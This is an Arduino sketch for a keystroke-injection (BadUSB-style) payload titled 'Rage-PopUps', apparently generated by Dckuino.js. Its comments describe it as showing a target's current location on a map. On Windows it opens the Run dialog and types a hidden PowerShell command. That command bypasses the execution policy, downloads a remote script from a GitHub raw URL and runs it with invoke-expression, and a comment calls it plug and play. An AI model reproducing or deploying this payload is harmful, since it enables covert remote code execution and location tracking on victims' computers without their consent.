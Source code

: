 /*
 * Generated with <3 by Dckuino.js, an open source project !
 */

#include "Keyboard.h"

void typeKey(uint8_t key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  // Begining the Keyboard stream
  Keyboard.begin();

  // Wait 500ms
  delay(500);

  //     Title: Rage-PopUps
  //     Author: I am reza
  //     Description: This payload is meant to open a map in your targets web browser with their current location
  //     Target: Windows 10, 11
  //     --------------------------------------------------------------------------------------
  //     THIS PAYLOAD IS PLUG AND PLAY. NO MODIFICATIONS NEEDED SIMPLY RUN THE CODE DOWN BELOW.
  //     --------------------------------------------------------------------------------------
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(500);

  Keyboard.print("powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/I-Am-Jakoby/hak5-submissions/main/OMG/Payloads/OMG-We-Found-You/found-you.ps1?dl=1; invoke-expression $pl");

  typeKey(KEY_RETURN);

  // Ending stream
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
